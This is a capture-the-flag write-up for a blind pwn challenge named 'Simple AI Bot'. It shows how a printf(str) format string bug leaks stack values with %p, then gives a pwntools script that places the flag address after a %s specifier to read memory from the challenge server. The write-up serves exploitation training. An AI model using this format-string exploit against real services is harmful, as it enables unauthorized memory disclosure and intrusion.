 # Simple AI Bot

Blind pwn suggested by @rosayxy.

The input string goes through `printf(str)`:

```
Hi, what can I help you with today?
> %p%p%p%p%p%p%p%p
I'm sorry, I don't know about: 0x7fffb71d52f00x110xc00200000x7fffb71d5320(nil)0x70257025702570250x70257025702570250x373265313464000a

Is there anything what you want me to ask?
```

The data printed:

- Don't care:
    - 0x7fffb71d52f0
    - 0x11
    - 0xc0020000
    - 0x7fffb71d5320
    - (nil)
- Location of our `%p%p%p%p%p%p%p%p`:
    - 0x7025702570257025: 4x %p
    - 0x7025702570257025: 4x %p
    - 0x373265313464000a: data after 8x %p

Get flag address:

```
Hi, what can I help you with today?
> flag
The flag is safely stored in 0x57278f8c5040

Is there anything what you want me to ask?
>
```

Put flag address at the end of the input string, and use `%s` to print the contents:

```python
from pwn import *
context(log_level='debug')

p = remote("simple-ai-bot.ctf.zone", 4242)

p.recvuntil(">")
p.sendline(b"flag")
addr = int(p.recvuntil(">").split()[6], 16)
p.sendline(b"%p"*7+b"%s"+p64(addr))
p.interactive()
```

Solved!

